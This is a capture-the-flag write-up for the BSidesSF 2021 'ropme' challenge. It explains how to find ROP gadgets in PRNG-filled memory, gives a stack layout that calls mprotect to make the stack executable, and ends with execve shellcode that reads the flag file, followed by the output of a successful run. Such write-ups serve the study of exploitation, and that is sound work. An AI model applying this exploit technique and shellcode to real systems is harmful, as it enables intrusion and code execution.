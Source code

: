 ```yaml
---
title: "BSIDES SF 2021: ropme"
date: 2021-04-04
toc: true
tags: ["CTF", "ROP", "pwn", "linux"]
---
```


I didn't really participate in the ctf, but I found this challenge to be
interesting and since not many teams solved it/posted writeups I decided to
post my solution. It's probably not the most elegant - if you solved it in a
different way I'd love to hear about it. The exploit source can be found
[here.](https://github.com/v-rzh/ctf_writeups/tree/main/bsidessf21_ropme)

In this writeup, I'm assuming you have a basic understanding of x86 architecture, return oriented programming, and the Linux API.

## Exploitable Service

We're given a service binary and its source code.

```
[joey@gibson]$ file ropme
ropme: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b82649cdb66e4b3f92ea5fd28e374b5793cb9f26, not stripped
```

The target binary is a 32-bit ELF. This will be useful when we are writing our
exploit. Let's take a look at the important parts of the source code.

```c
// Generate a random block of +rwx memory that'll be filled randomly
uint32_t *random_code = mmap((void*)CODE_START, CODE_LENGTH,
                                PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

// Allocate memory for the user to send us a stack - it's just +rw
uint8_t  *stack = mmap((void*)STACK_START, STACK_LENGTH, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

...

alarm(TIME);

// Set the randomness in stone at the outset
time_t t = time(NULL);

// Immediately let the user know how much time they have
printf("The current time is: %ld\n", t);
printf("You have %d seconds to make this work\n", TIME);

// Populate the random code block using a predictable RNG
int i;
srand(t);
for(i = 0; i < CODE_LENGTH / 4; i++) {
    random_code[i] = rand();
}

```
The service allocates two memory regions:

* `random_code` with read, write, and exec permissions at address
      `CODE_START` (`0x13370000`)

* `stack` with just read and write permissions and an address chosen by the
      system (`STACK_LENGTH` is `NULL`)

The program uses `time(2)` to generate the seed for pseudo-random number
generation and conveniently tells the client what that seed is. It proceeds to
fill `random_code` memory region with (you guessed it!) pseudo-random 32-bit
numbers.

Finally the service reads `STACK_LENGTH` bytes of user input into the `stack`
region, uses `asm(3)` to clear all of the registers, set the stack pointer
(`esp`) to the `stack` memory region and immediately `ret`'s.

What's going on here? Essentially, a contrived example of a stack overflow
vulnerability, exploitable via Return Oriented Programming (ROP). Instead of
writing a vulnerable program, the author of this challenge cut to the chase
and generated an artificial stack for our exploit. The first thing that happens
after we populate that stack is the `ret` operation, so we already control the
instruction pointer (`eip`) with the first four bytes of our input.

## Dumpster diving for gadgets

We control `eip` but the only place we can reliably jump to is the `random_code`
memory region, filled with junk. Lots of interesting things can be found in the
junk!

Turns out if you generate `0x500000` of pseudo-random bytes, *some* of those
bytes will happen to be ROP gadgets. Remember that we are handed over the seed
for pseudo-random number generation, which means we can recreate `random_code`
locally (even if we weren't given the seed - one second is a *long* time - we
could call `time(2)` locally and get the same result).

The exploitation plan is straightforward - generate the same random
memory that the service did and find the necessary gadgets for our ROP chain.
There's only one problem - our ROP gadgets can't be too long. The longer
the instruction the less chances we have of finding it in the randomly
initialized memory.

What happens if not all gadgets are present? We just try again! I wrapped my
exploit with a shell script that kept trying until the exploit was successful.
Through trial and error I found that we can find any two-byte gadget (including
`ret`) with every attempt. A three-byte gadget already calls for some
bruteforcing, so we must keep those to a minimum (my ROP chain ended up having
two three-byte gadgets - I bet there's a better solution out there).

## Exploit methodology

The goal of this challenge is to read the contents of `/home/ctf/flag.txt`. As
is often the case with restricted exploitation environment, instead of attacking
this problem head-on, we will modify the environment to make exploitation
easier for us. We have full control over the stack, but it is set as
non-executable. Our ROP chain will have to change the `stack` memory region
permissions to executable. Then we simply jump into the stack and execute the
second stage shellocde, which will read the flag for us.

To change permissions of a memory region, we utilize the `mprotect(2)` system
call. If you've read the man page you know that `mprotect` might expect a
page-aligned address and length. Since we
don't know the stack address, the first thing our ROP chain needs to do is grab
the stack address from the stack pointer. As this is our first operation, `esp`
will be pointing at `stack+4`, so we decrement `ebx` four times. Now we pop the
rest of the arguments and the syscall number to the respective registers and run
`int 0x80` (remember we're dealing with a 32-bit system).

Here is the list of gadgets we're looking for:

```asm
; gadget 0
; used to grab the stack address
89 e3   mov ebx, esp
c3      ret

; gadget 1
; used to page align the stack address
4b      dec ebx
c3      ret

; gadget 2
; used for syscall parameter loading
58      pop eax
c3      ret

; gadget 3
; used for syscall parameter loading
59      pop ecx
c3      ret

; gadget 4
; used for syscall parameter loading
5a      pop edx
c3      ret

; gadget 5
; everyone's favorite interrupt
cd 80   int 0x80
c3      ret

; gadget 6
; jump to our second stage shellcode
ff e4   jmp esp
```
The stack layout will look like this:
```c
        *((uint32_t *)(exploit+0)) = mov_ebx;   // address of mov ebx, esp gadget
        *((uint32_t *)(exploit+4)) = dec_ebx;   // address of dec ebx gadget
        *((uint32_t *)(exploit+8)) = dec_ebx;
        *((uint32_t *)(exploit+12)) = dec_ebx;
        *((uint32_t *)(exploit+16)) = dec_ebx;
        *((uint32_t *)(exploit+20)) = pop_eax;  // address of pop eax gadget
        *((uint32_t *)(exploit+24)) = 125; // __NR_mprotect
        *((uint32_t *)(exploit+28)) = pop_ecx;  // address of pop ecx gadget
        *((uint32_t *)(exploit+32)) = 4096; // page-aligned stack size
        *((uint32_t *)(exploit+36)) = pop_edx;  // address of pop edx gadget
        *((uint32_t *)(exploit+40)) = (PROT_EXEC|PROT_WRITE|PROT_READ);
        *((uint32_t *)(exploit+44)) = int_80;   // address of int 0x80 gadget
        *((uint32_t *)(exploit+48)) = jmp_esp;  // address of jmp esp gadget
```
Upon returning from `mprotect` we should be able to jump to `esp`. There's a
caveat. The calling convention uses the stack for arguments, but we're already
using the stack for our code. We need a new stack! Seems obvious, but I took
that for granted and spent an hour wondering why my exploit was coring.
Fortunately, we can just use `random_code` segment as our new stack. The first
order of business in our second stage shellcode will be to move an address in
`random_code` into `esp`. Besides that it's just a vanilla `execve` shellcode
that's going to cat the flag.

```c
    0xbc, 0x00, 0x00, 0x38, 0x13,       // mov    esp,0x133800000 ; new stack
    0x6a, 0x0b,                         // push   0xb
    0x58,                               // pop    eax
    0x31, 0xd2,                         // xor    edx,edx
    0x52,                               // push   edx
    0x68, 0x2f, 0x63, 0x61, 0x74,       // push   0x7461632f
    0x68, 0x2f, 0x62, 0x69, 0x6e,       // push   0x6e69622f
    0x89, 0xe3,                         // mov    ebx,esp
    0x68, 0x78, 0x74, 0x00, 0x00,       // push   0x7478
    0x68, 0x61, 0x67, 0x2e, 0x74,       // push   0x742e6761
    0x68, 0x66, 0x2f, 0x66, 0x6c,       // push   0x6c662f66
    0x68, 0x65, 0x2f, 0x63, 0x74,       // push   0x74632f65
    0x68, 0x2f, 0x68, 0x6f, 0x6d,       // push   0x6d6f682f
    0x89, 0xe1,                         // mov    ecx,esp
    0x52,                               // push   edx
    0x51,                               // push   ecx
    0x53,                               // push   ebx
    0x89, 0xe1,                         // mov    ecx,esp
    0xcd, 0x80,                         // int    0x80
    0x6a, 0x01,                         // push   0x01
    0x58,                               // pop    eax
    0x31, 0xdb,                         // xor    ebx, ebx
    0xcd, 0x80,                         // int    0x80
```

Let's see the exploit in action:

```
[joey@gibson]$ ./exploit
=== Generating random memory with seed 1615121940
...
=!!= Found EBX mov gadget @ 0x135e533c
=!!= Found INT 0x80 gadget @ 0x1385c0c8
=-= All gadgets are present! Sending the exploit..
CTF{bounce_bounce_bounce}
```
